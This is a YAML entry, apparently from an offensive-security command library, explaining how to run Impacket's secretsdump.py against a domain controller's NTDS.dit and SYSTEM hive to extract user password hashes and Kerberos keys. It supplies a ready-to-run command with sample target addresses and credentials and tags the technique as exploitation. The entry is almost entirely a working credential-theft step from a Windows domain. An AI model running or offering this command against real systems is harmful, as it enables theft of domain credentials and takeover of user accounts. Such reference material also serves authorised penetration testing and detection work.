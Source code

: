 ```yaml
---
title: |
  Use NTDS.dit and system file to extract the user account hashes associated with the target machine
description: |
  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit. The following command will attempt to use the specified machines NTDS.dit and system file to extract the user account hashes associated with that machine.

  Command Reference:

  	Target IP: 10.10.10.2

  	Domain Controller: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!

command: |
  python3 secretsdump.py -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip 10.10.10.1 test.local/test:Welkom01!@10.10.10.2
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy
---
```

